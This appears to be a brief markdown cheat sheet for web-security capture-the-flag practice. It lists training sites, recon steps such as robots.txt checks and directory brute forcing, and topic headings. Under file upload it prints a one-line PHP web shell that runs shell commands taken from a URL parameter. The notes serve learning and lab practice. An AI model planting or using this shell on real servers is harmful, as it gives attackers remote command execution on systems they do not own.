 ## ► web

★ No. 1 resource for web: https://portswigger.net/

### Initial checks
- robots.txt
- git dumpster
- directory bruteforce

### Time wasters
- ☆ https://overthewire.org/wargames/natas/
- https://ctf.hacker101.com/
- https://www.hackthissite.org/
- http://www.dvwa.co.uk/

### SQL Injection
- https://github.com/Audi-1/sqli-labs/
### XSS
### XXE
### Path Traversal
### PHP deserealization
### File Upload


#### Basic PHP shell

``` <?php echo system($_GET['c']); ?> ```

### Local File Inclusion
